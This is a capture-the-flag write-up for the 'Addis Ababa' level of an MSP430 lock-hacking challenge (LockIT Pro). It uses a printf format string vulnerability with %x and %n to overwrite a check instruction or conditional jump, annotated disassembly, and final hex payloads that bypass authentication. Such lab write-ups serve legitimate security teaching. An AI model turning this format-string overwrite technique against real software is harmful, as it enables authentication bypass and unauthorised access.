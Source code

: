 # Addis Ababa

## Challenge overview

Lockitall LockIT Pro, rev b.03
- We have verified passwords can not be too long.
- Usernames are printed back to the user for verification.
- This lock is attached the the LockIT Pro HSM-1.

## Solution

### Solution overview

This solution utilizes a format string vulnerability to inject a code fault at a critical point in the authentication algorithm.

### Analysis

The device requires an input string in the format &lt;username&gt;:&lt;password&gt;.  The total length of the input string, including null terminator, may not be longer than 20 characters.

On analysis of the disassembled code, the input is written back out using printf(), which supports %s, %x and %n.  It does not support '\\' escapes, '$' parameters, or any other parameters.  The limited parameter options combined with the limited input size makes the format string vulnerability unsuitable for writing arbitrary values.

There are a limited number of things that we can do with this format string vulnerability.  We can provide an address to overwrite within the input string, and %x can be used to consume unwanted parameters so that %n can be aligned with the address parameter.  However, %n can only be used to write small values.  We don't have appropriate parameters or input string length to build output characters up to any arbitrary number for %n to write.  So while we can aim, we are very limited in what we can write.

### Attack

Perhaps we can clobber a single instruction, as in a clock glitch or voltage glitch attack, and affect the flow of execution.  The following section of code includes a conditional jump just before the call to unlock_door().  If we knock out either the check value at 0x448C or the conditional jump at 0x448E, we can unlock the door despite failing the authentication check.

	447c:  b012 c845      call	#0x45c8 <printf>            ; Execute format string here.
	4480:  2153           incd	sp
	4482:  3f40 0a00      mov	#0xa, r15
	4486:  b012 5045      call	#0x4550 <putchar>
	448a:  8193 0000      tst	0x0(sp)						; Overwrite 0x0000,
	448e:  0324           jz	#0x4496 <main+0x5e>         ; ...or overwrite conditional jump.
	4490:  b012 da44      call	#0x44da <unlock_door>       ; Profit here either way.
	4494:  053c           jmp	#0x44a0 <main+0x68>
	4496:  3012 1f45      push	#0x451f "That entry is not valid."
	449a:  b012 c845      call	#0x45c8 <printf>
	449e:  2153           incd	sp
	44a0:  0f43           clr	r15
	44a2:  3150 1600      add	#0x16, sp
	44a6 <__stop_progExec__>
	44a6:  32d0 f000      bis	#0xf0, sr
	44aa:  fd3f           jmp	#0x44a6 <__stop_progExec__+0x0>

Just ignore for a moment whether or not the MSP430 has any code protection, or whether or not this device is running code from flash.  Let's try it anyway.

The following input strings should implement our attack:

	"\x8C\x44%x%n" or "\x8E\x44%x%n"

Broken down as follows:
* \x8C\x44 is the address of the check value that we want to overwrite (solution 1).
* \x8E\x44 is the address of the conditional jump that we want to overwrite (solution 2).
* %x consumes a parameter, so that %n will align with the address at the beginning of the input string.
* %n writes out the number of characters written so far (0x0002).

The final solutions, provided as hex input: 8C442578256E or 8E442578256E
